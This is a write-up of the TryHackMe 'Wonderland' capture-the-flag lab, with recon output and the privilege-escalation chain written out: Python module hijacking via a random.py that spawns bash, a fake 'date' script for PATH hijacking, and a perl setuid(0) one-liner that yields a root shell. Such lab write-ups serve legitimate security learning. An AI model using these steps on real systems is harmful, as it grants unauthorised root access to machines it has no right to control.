


# Wonderland - Writeup

## Overview

This is my writeup for the Wonderland CTF.  The Wonderland CTF is a free room of intermediate difficulty which tests your knowledge of privilege escalation.  This challenge has no shortage of rabbit holes (pun intended) so it's important to remain cautious and stick to your methodology.

## How to Access

I completed this CTF challenge on TryHackMe.

Link to the room:
- https://tryhackme.com/room/wonderland

## Steps

When tackling a CTF like this, the standard practice is to start with reconnaissance.  I typically start with an nmap scan:

```
$ nmap -sC -sV -T4 -p- -oN nmap/initial_scan 10.10.7.151
# Nmap 7.91 scan initiated Sun Mar 14 00:30:18 2021 as: nmap -sC -sV -T4 -p- -oN nmap/initial_scan 10.10.7.151
Nmap scan report for 10.10.7.151
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 14 00:30:54 2021 -- 1 IP address (1 host up) scanned in 35.96 seconds
```

According to the scan, ports 22 (SSH) and 80 (HTTP) are open.  I then navigated to the website to manually investigate whilst `gobuster` was running in the background:

```
$ gobuster dir -e -u 10.10.7.151 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.7.151
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/03/14 00:33:52 Starting gobuster
===============================================================
http://10.10.7.151/img (Status: 301)
http://10.10.7.151/index.html (Status: 301)
http://10.10.7.151/r (Status: 301)
===============================================================
2021/03/14 00:34:12 Finished
===============================================================
```

Whilst manually crawling through the website, I discovered the `/img` directory and downloaded each image onto my machine.  I then used `steghide` to see if there was anything embedded in the images:

```
$ steghide extract -sf white_rabbit_1.jpg
Enter passphrase:
wrote extracted data to "hint.txt".
$ cat hint.txt
follow the r a b b i t
```

The `gobuster` output revealed a `/r` directory.  Navigating to this shows:



From the `hint.txt`, I realised that there within this directory there is a `/a` directory.  So, navigating to `/r/a/b/b/i/t` reveals:


Inspecting the source code of this page revealed a hidden paragraph:

`<p style="display: none;">alice:H********************************************l</p>`

This looks like a username:password combination.  So, I can now login via SSH:



The `alice` user's home directory shows two files:
- root.txt: cannot be read.
- walrus_and_the_carpenter.py: script that prints 10 random lines from a poem string.

I decided to inspect what commands we can run as `alice`:

```
$ sudo --list
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Looks like we can run the Python file.  Sample output:

```
$ python walrus_and_the_carpenter.py
The line was:    "The night is fine," the Walrus said
The line was:    Holding his pocket handkerchief
The line was:    The sun was shining on the sea,
The line was:    The Carpenter said nothing but
The line was:    "The time has come," the Walrus said,
The line was:    And made them trot so quick!"
The line was:    Pepper and vinegar besides
The line was:    Before his streaming eyes.
The line was:    With sobs and tears he sorted out
The line was:    And why the sea is boiling hot —
```

This means we can hijack the module and spawn a bash shell by creating a `random.py` file in the same directory.  Here is a link to the article which I used: [click here](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8).

My `random.py` file simply imports `os` and `pty`, and then uses `.spawn()` to create a bash shell process.  I can then execute this as the `rabbit` user, completing the privilege escalation.

```
""" random.py - python module hijacking """
import os
import pty

pty.spawn('/bin/bash')
```

The result:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

Within the `rabbit` user's `/home` directory there is a executable file named `teaParty`:

```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sun, 14 Mar 2021 02:03:38 +0000
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

I downloaded this file onto my own machine using Python's `http.server`.  On the room machine, I ran:

```
rabbit@wonderland:/home/rabbit$ python3.6 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.9.150.161 - - [14/Mar/2021 01:10:29] "GET /teaParty HTTP/1.1" 200 -
```

And, on my machine, I ran:

```
$ wget http://10.10.7.151:8000/teaParty
--2021-03-14 01:10:29--  http://10.10.7.151:8000/teaParty
Connecting to 10.10.7.151:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: ‘teaParty’

teaParty           100%[===============>]  16.42K  --.-KB/s    in 0.07s   

2021-03-14 01:10:29 (237 KB/s) - ‘teaParty’ saved [16816/16816]
```

After analysing the decompiled code, I found that "Segmentation fault (core dumped)" is printed as a string, and is not an error.  I then noticed that the `date` module was being called, so I used the same module hijacking exploit that used earlier.  I first created a file called `date`:

```
#!/bin/bash
echo "Hijacking date module..."
/bin/bash
```

When run, this escalates privileges to become the `hatter` user.  Navigating to their home directory reveals a `password.txt` file which contains their login credentials.

`W*************************k`

Using `sudo -l`, it appears that this user has perl capabilities.  This means I can do further privilege escalation by setting the UID of `hatter` to 0 (root):

```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX:;setuid(0); exec "/bin/sh";'
# ls /home/alice
__pycache__  random.py  root.txt  walrus_and_the_carpenter.py
# cat /home/alice/root.txt
thm{T********************************************************!}
```

Going further into the `/root` directory:

```
# ls -la /root
total 28
drwx--x--x  4 root root 4096 May 25  2020 .
drwxr-xr-x 23 root root 4096 May 25  2020 ..
lrwxrwxrwx  1 root root    9 May 25  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 May 25  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 May 25  2020 .ssh
-rw-r--r--  1 root root   32 May 25  2020 user.txt
# cat /root/user.txt    
thm{"C**********************!"}
#
```

And that's it!  All done!

## Summary and Feedback

This challenge really tested my knowledge of privilege escalation.  If you are more of a beginner, I would strongly recommend trying one of the easier rooms as I didn't know many of the tactics used in this guide (found due to extensive Googling).